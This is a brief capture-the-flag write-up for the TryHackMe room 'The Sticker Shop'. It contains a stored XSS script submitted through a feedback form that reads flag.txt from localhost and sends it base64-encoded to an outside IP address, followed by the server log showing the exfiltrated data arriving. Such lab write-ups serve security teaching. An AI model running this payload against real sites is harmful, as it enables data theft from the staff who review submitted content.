 ```yaml
---
title: The Sticker Shop
description: 'Basic XSS in through a form'
pubDate: 2024-12-16
category: 'tryhackme'
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/618b3fa52f0acc0061fb0172-1718377390091'
---
```


There is only one form that takes user input, it also says: `Thanks for your feedback! It will be evaluated shortly by our staff` at the bottom, which is a big hint that there is some interaction with the data that is sent through the form.

In the description of the machine we get a hint as to where the `flag.txt` should be.

With some testing we see that the form executes any Javascript we provide, this way we can get the flag through the feedback form.

```html
<script>
fetch('http://127.0.0.1:8080/flag.txt')
.then(r => r.text())
.then(text => fetch('http://10.9.2.78/?' + btoa(text)))
</script>
```

The response:

```
10.10.151.94 - - [16/Dec/2024 12:04:30] "GET /?VEhNezgzNzg5YTY5MDc0ZjYzNmY2NGEzODg3OWNmY2FiZThiNjIzMDVlZTZ9 HTTP/1.1" 200 -
```
